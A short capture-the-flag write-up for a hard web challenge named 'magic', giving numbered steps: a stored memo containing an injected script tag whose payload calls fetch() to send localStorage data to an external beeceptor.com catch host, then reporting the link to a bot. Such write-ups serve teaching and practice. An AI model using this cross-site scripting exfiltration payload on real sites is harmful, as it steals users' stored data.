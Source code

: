 # magic (Web: Hard)

## Exploit

1. Register
2. Save Memo:
    - ```<script src="/magic?token=fetch(`https://xxxxx.free.beeceptor.com?${localStorage.getItem(`memo`)}`)//"></script>```
3. Copy Magic Link
4. Report Magic Link
5. And flag is sent to `https://beeceptor.com/console/xxxxx` !
